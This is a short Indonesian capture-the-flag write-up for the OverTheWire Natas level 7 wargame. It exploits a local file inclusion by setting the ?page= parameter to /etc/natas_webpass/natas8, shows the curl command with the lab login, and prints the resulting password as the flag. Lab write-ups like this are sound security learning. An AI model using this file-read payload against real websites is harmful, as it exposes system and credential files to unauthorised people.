



# soal
Username: natas7
URL:      http://natas7.natas.labs.overthewire.org

# solve
- use cred natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
- disini ketika saya sudah login saya melihat terdapat sebuah navbar untuk berpindah halaman dan ketika di lihat terdapat sebuah query
  - query nya adalah ?page=home
  
- lalu ketika saya lihat view-source pagenya saya menemukan hint untuk posisi passwrod natas
  
  ```/etc/natas_webpass/natas8```
- jadi saya mengubah value dari paramter ?page
  - dan mendapatkan flagnya
  
- jika menggunakan curl
  ```bash
  curl http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
  # xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
  # <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
  ```

# flag
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q